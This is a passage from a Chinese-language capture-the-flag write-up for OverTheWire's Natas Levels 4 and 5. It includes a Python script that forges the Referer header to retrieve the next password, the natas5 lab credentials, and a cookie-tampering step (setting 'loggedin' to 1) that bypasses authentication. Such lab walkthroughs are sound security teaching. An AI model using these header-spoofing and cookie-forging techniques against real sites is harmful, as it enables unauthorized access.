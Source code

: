             user = "natas4"
            passwd = "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ"

            url = "http://%s.natas.labs.overthewire.org/" % user

            # Referer => 發送 request headers 時，用於指定當前 web page 的前一個的 web page 的來源網址
            headers = {"Referer": "http://natas5.natas.labs.overthewire.org/"}

            # headers = headers => 將剛剛的 Referer 加入 get 請求中
            response = req.get(url, auth=(user, passwd), headers=headers)
            content = response.text

            # . => 在 default 模式，匹配除了'\n'的任意字符。
            # * => 對它前面的 regular expression 匹配 0 到任意次重復。
            answer = re.findall("The password for natas5 is (.*)", content)[0]

            # with open("./Natas/response.html", mode='w', encoding='utf-8') as f:
            #     print(content, file=f)

            print(answer)
            ```

# <span class="bigTitle">Level5</span>
- username: natas5
- password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
- url: http://natas5.natas.labs.overthewire.org/
- Solution
    - 一開始登進去會看到頁面顯示沒有登入，那一開始我們已經登入了，那就有可能是cookies裡面沒有紀錄我已經登入的訊息
        ![](https://i.imgur.com/tu3YBRO.png)
    - 就先去看看這個web page的cookies，發現有一個叫==logged in==的value是0
        ![](https://i.imgur.com/41Z9jmU.png)
    - Broswer(FireFox) :
        - 就把它的value改成1(代表已經登入)就可以取得Flag了
            ![](https://i.imgur.com/wIh04Tx.png)
    - Python :
        ```python=
        #! /usr/bin/env python3
        # coding=utf-8
